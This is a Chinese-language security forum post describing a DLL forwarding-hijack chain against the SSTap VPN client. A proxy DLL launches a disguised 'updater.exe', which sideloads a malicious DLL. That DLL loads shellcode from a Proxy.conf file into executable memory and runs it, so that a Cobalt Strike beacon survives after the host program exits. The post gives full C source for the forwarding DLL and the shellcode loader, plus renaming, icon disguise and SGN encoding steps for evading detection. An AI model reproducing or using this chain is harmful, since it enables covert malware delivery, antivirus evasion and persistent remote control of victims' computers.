

# 关于 DLL 转发劫持的思考 - 先知社区

关于 DLL 转发劫持的思考

- - -

发现很多网上都是直接劫持目标程序加载 DLL，直接转发 DLL 劫持，然后将 shellcode 写到劫持的那个 DLL 里面。

最终目标程序加载我们恶意 DLL 的时候成功上线。

那么我们思考一下，shellcode 写入到 dll 中肯定是被查杀的不用说。

那么我们能不能通过转发 dll 劫持去点击白程序，然后通过白程序去加载我们的恶意 dll 呢？

比如说我们现在有一个 sstap.exe 这个程序，这个程序是一个 VPN 软件，当执行它的时候会加载很多的 dll 文件。

那么我们通过 DLL 转发劫持，拿到一个新的 DLL 之后，在新的 DLL 中写入打开白程序的代码，通过白程序去加载黑 DLL。就算将 sstap.exe 退了，也不会导致我们的 beacon 下线。

如下图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094642-c181c392-bbec-1.png)  
那么我们来一步一步的实现，首先我们肯定先要做一个 DLL 转发劫持。

这里使用到 AheadLib 工具来做转发 DLL 劫持。

这里我们使用到的程序是 sstap.exe，当然你也可以使用其他的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094648-c4d1c31c-bbec-1.png)  
这里需要将原始 DLL 的名字更改一下这里，改成 libiconv2Help，其实也可以更改为其他名字，只要不是那么明显就好，点击生成即可。

生成代码如下：

```plain
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 头文件
#include <Windows.h>
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////


////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 导出函数
#pragma comment(linker, "/EXPORT:DllGetVersion=libiconv2Help.DllGetVersion,@1")
#pragma comment(linker, "/EXPORT:_libiconv_version=libiconv2Help._libiconv_version,@2")
#pragma comment(linker, "/EXPORT:libiconv=libiconv2Help.libiconv,@3")
#pragma comment(linker, "/EXPORT:libiconv_close=libiconv2Help.libiconv_close,@4")
#pragma comment(linker, "/EXPORT:libiconv_open=libiconv2Help.libiconv_open,@5")
#pragma comment(linker, "/EXPORT:libiconv_set_relocation_prefix=libiconv2Help.libiconv_set_relocation_prefix,@6")
#pragma comment(linker, "/EXPORT:libiconvctl=libiconv2Help.libiconvctl,@7")
#pragma comment(linker, "/EXPORT:libiconvlist=libiconv2Help.libiconvlist,@8")
#pragma comment(linker, "/EXPORT:locale_charset=libiconv2Help.locale_charset,@9")
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////


////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
    }

    return TRUE;
}
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```

现在我们来实现第二步，在 DLLMain 方法中需要通过创建一个线程去执行点击操作。

如下代码：可以看到这里通过 ShellExecute 函数去点击 updater.exe，也就是说我们去运行 sstap.exe 的时候他会加载 libiconv2.dll，而这个 dll 被我们转发劫持掉了，而转发的这个 dll 中写的就是点击 updater.exe，当点击 updater.exe 的时候他就会去加载黑 DLL 上线。

```plain
// 头文件
#include "pch.h"
#include <Windows.h>
#include <iostream>
#include <Windows.h>
#include <shlwapi.h>
#include <shlobj_core.h>
#pragma comment(lib, "Shlwapi.lib")
#include <ShellAPI.h>

// 导出函数
#pragma comment(linker, "/EXPORT:DllGetVersion=libiconv2Help.DllGetVersion,@1")
#pragma comment(linker, "/EXPORT:_libiconv_version=libiconv2Help._libiconv_version,@2")
#pragma comment(linker, "/EXPORT:libiconv=libiconv2Help.libiconv,@3")
#pragma comment(linker, "/EXPORT:libiconv_close=libiconv2Help.libiconv_close,@4")
#pragma comment(linker, "/EXPORT:libiconv_open=libiconv2Help.libiconv_open,@5")
#pragma comment(linker, "/EXPORT:libiconv_set_relocation_prefix=libiconv2Help.libiconv_set_relocation_prefix,@6")
#pragma comment(linker, "/EXPORT:libiconvctl=libiconv2Help.libiconvctl,@7")
#pragma comment(linker, "/EXPORT:libiconvlist=libiconv2Help.libiconvlist,@8")
#pragma comment(linker, "/EXPORT:locale_charset=libiconv2Help.locale_charset,@9")


DWORD WINAPI run(LPVOID lpParameter) {
    ShellExecute(NULL, L"open", L"updater.exe", NULL, NULL, SW_SHOW);
    return 0;
}

// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        CreateThread(NULL, 0, run, NULL, 0, NULL);
        DisableThreadLibraryCalls(hModule);

    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
    }

    return TRUE;
}
```

我们生成 DLL 之后通过 resource Hacker 去给他打上 kernel32.res 的资源。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094730-de25629c-bbec-1.png)  
然后我们将它拉入到 SSTAP 包中，更改名称为 libiconv2.dll 即可，然后将原始的 DLL 的名字更改为 libiconv2Help.dll 即可。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094736-e1ba78ca-bbec-1.png)  
然后我们需要白程序和黑 DLL 也拉进去。

这里黑 DLL 也是需要在导出函数中写你的 loader。

代码如下：需要注意的是这里我们读取的 Proxy.conf 文件，这个文件就是我们的 shellcode。

```plain
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <Windows.h>


extern "C" __declspec(dllexport) int error_output() {


    return 0;
}
extern "C" __declspec(dllexport) int dirutils_path_transform() {
     return 0;
}
extern "C" __declspec(dllexport) int autolog_init() {
     return 0;
}
extern "C" __declspec(dllexport) int error_output_check() {
    DWORD dwSize;
    DWORD dwReadSize;
    HANDLE hFileNew;
    hFileNew = CreateFile(L"Proxy.conf", GENERIC_ALL, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    if (hFileNew == INVALID_HANDLE_VALUE)
    {
        return 0;
    }

    dwSize = GetFileSize(hFileNew, NULL);

    void* exec = VirtualAlloc(0, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    ReadFile(hFileNew, exec, dwSize, &dwReadSize, NULL);

    ((void(*)())exec)();
     return 0;
}


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:

    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

将白程序和黑 dll 以及 shellcode 放到 sstap 目录中，这里的白程序为了不引人注意，所以添加了 icon 图标，当然你也可以添加，其实也是通过 resource hacker 去添加的。

如下图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094757-ede587ac-bbec-1.png)  
然后当我们去运行 sstap.exe 的时候如下：

```plain
sstap.exe 加载 libiconv2.dll -> libiconv2.dll 点击 updater.exe -> updater.exe 加载黑 DLL + 最后加载 shellcode
```

这里的 shellcode 可以通过 SGN 去加密即可。

当我们点击 sstap.exe 的时候，正常打开，如下图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094812-f737588a-bbec-1.png)  
然后我们来到 Cobalt Strike 这里可以看到已经上线了。

并且上线的并不是 sstap.exe，而是 updater.exe。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094817-fa367f2a-bbec-1.png)  
当我们将 sstap.exe 退了之后会发现我们的 beacon.exe 是不会掉的。因为进程中跑的是 updater.exe。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094823-fd9bab54-bbec-1.png)
